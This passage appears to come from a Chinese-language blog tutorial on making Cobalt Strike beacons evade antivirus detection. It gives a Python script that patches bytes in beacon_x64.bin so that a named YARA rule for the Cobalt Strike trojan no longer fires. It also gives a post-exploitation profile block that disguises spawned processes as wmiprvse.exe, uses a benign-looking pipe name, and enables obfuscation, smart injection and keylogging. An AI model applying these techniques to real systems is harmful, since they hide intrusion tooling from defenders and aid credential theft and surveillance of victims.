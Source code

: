 ```python
def replace_bytes(input_filename, output_filename):
    search_bytes      = b"\x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00"
    replacement_bytes = b"\xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00"
  
    with open(input_filename, "rb") as input_file:
        content = input_file.read()
        modified_content = content.replace(search_bytes, replacement_bytes)
    
    with open(output_filename, "wb") as output_file:
        output_file.write(modified_content)
    
    print(f"Modified content saved to {output_filename}.")

# Example usage
input_filename = "beacon_x64.bin"
output_filename = "output.bin"
replace_bytes(input_filename, output_filename)
```



使用yara扫描新生成的二进制文件，可以发现规则`Windows_Trojan_CobaltStrike_f0b627fc`没有被检测到

![image-20231015170026321](利用CS的Profile文件实现免杀/image-20231015170026321.png)



# 改善post-ex

`post-ex`块是Cobalt Strike Profile文件中的一个配置区段，主要用于控制和配置后渗透（post-exploitation）阶段的行为和特性。从Cobalt Strike的4.5版本开始，`post-ex`块允许用户在具有显式注入选项的情况下，将特定功能注入到现有的进程中。它提供了针对`post-ex DLLs`的一些操作安全（OPSEC）选项，例如在进行屏幕截取、按键记录、凭证抓取或目标扫描等后渗透任务时，可以考虑将功能注入到当前的Beacon进程中

我们采用如下配置来提升CS的后渗透能力：

```
post-ex {
    set pipename "Winsock2\\CatalogChangeListener-###-0";
    set spawnto_x86 "%windir%\\syswow64\\wbem\\wmiprvse.exe -Embedding";
    set spawnto_x64 "%windir%\\sysnative\\wbem\\wmiprvse.exe -Embedding";
    set obfuscate "true";
    set smartinject "true";
    set amsi_disable "false";
    set keylogger "GetAsyncKeyState";
    #set threadhint "module!function+0x##"
}
```
